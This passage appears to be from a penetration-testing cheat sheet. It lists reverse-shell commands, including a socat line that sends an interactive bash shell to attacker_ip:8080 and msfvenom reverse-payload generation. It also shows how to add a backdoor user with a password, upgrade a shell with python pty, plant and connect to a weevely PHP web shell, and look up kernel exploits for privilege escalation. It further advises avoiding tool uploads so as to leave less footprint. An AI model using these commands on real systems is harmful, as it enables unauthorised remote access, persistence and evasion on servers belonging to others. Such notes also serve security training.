 
3. socat  
```php
socat tcp-listen:8080 -
./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:attacker_ip:8080
```  

4. python, php, java, perl  
http://www.03sec.com/3140.shtml  

5. msfvenom can generate the payload  
```php
msfvenom -l payloads cmd/unix/reverse
// this can list all the reverse script
msfvenom -p cmd/unix/xxxx lhost=target_ip lport=target_port R
```  

Try your best not to upload any tools to the server because it would be complicated to clean your footprint after all. Therefore, we choose the **natural** library to build up the shell much more...  

If you want a shell which is more interactive...  
1. add user  
```php
useradd new;echo 'new:password'|chpasswd
useradd new;echo -e 'xxxxxxx' |passwd test
```  
2. Get std shell with python  
```php
python -c "import pty;pty.spawn('/bin/bash')"
```  

reference from [安全客](https://www.anquanke.com/post/id/87017)  
reference from [你和目标只差一个shell的距离](https://klionsec.github.io/2016/09/27/revese-shell/)  

# weevely shell
We can use weevely shell in kali system. Its advantage is difficulty for others to get its private key, and its disadvantage is slow because it need to run on php.  
```php
// in kali
weevely generate password shell.php

// after you upload your shell.php
// connect
weevely http://example.com/shell.php password
```  
Additionally, you can many modules on it.  
[Reference to epinna/weevely3](https://github.com/epinna/weevely3)  

# Privilege escalation    
1. escalate with kernel exploit  
```php
uname -a // you can get the version of kernel and information
e.g. Linux shinmao 4.17.0-kali1-amd64 #1 SMP Debian 4.17.8-1kali1 (2018-07-24) x86_64 GNU/Linux
```  
search exploit in kali  
```php
searchsploit linux priv esc 4.17.0 kali
```  
We still need to compile it to run it on the victim machine!! However, in the real world we might run into the condition such that `gcc` isn't installed on the server. In addition, **reading source code** before you compile it is the most important thing!  
